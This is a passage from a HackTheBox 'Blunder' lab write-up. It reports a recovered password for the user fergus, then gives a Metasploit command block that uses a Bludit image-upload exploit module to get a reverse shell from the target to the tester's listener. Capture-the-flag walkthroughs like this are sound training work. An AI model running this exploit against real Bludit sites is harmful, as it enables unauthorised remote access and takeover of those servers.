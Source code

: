 Execute it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2010:32:22.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2010:28:44.png)

And we found the right passsword for the user `fergus`

`fergus:RolandDeschain`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2010:34:52.png)

Now that we have a valid user and password, let's log in the application and see how we can get a reverse shell in it, in order to update our exploit.

# Reverse Shell

So, we log in the application

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2010:48:17.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2010:48:46.png)

On the new content tab we see that we can upload archives in it.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2010:53:26.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2010:53:33.png)

Here, the way to upload archives is a little bit different, and when I got the code I'll explain better how to get it working.

There are a script in Metasploit that works it, so let's pass the execution of the module trough metasploit and see exactly what it does.

## Upload File

First, disable file extensions client response in burp

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2003:41:48.png)

```sh
msfconsole -q
use linux/http/bludit_upload_images_exec
set BLUDITPASS RolandDeschain
set BLUDITUSER fergus
set RHOST 10.10.10.191
set LHOST 10.10.14.20
set Proxies http:127.0.0.1:8080
set ReverseAllowProxy true
run
```
